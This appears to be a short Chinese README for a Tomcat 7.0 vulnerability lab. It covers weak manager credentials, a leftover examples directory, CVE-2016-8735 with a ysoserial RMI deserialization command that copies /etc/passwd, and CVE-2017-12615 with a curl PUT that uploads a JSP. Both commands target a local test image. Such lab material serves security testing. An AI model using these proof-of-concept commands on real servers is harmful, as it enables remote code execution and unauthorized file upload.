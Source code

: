 ### 运维安全 - /manager/html 弱口令

测试镜像

* src/base/tomcat7.0/

### 运维安全 - /examples 目录未删除

测试镜像

* src/base/tomcat7.0/

### CVE-2016-8735 - JmxRemoteLifecycleListener 反序列化漏洞

测试镜像

* src/base/tomcat7.0/

影响版本

* Apache Tomcat 9.0.0.M1 to 9.0.0.M11
* Apache Tomcat 8.5.0 to 8.5.6
* Apache Tomcat 8.0.0.RC1 to 8.0.38
* Apache Tomcat 7.0.0 to 7.0.72
* Apache Tomcat 6.0.0 to 6.0.47

参考链接

* [Apache Tomcat多版本远程代码执行CVE-2016-8735(附POC)](https://www.anquanke.com/post/id/85043)

Poc

```
java -cp /tmp/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 10001 Groovy1 "cp /etc/passwd /tmp"
```

### CVE-2017-12615 - tomcat PUT 任意文件上传漏洞

测试镜像

* src/base/tomcat7.0/

参考链接

* [Tomcat代码执行漏洞分析测试(附POC)](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)

Poc

```
curl -vv -X PUT http://127.0.0.1/test.jsp/ -H 'Content-Type: text/plain' --data @test.jsp
```

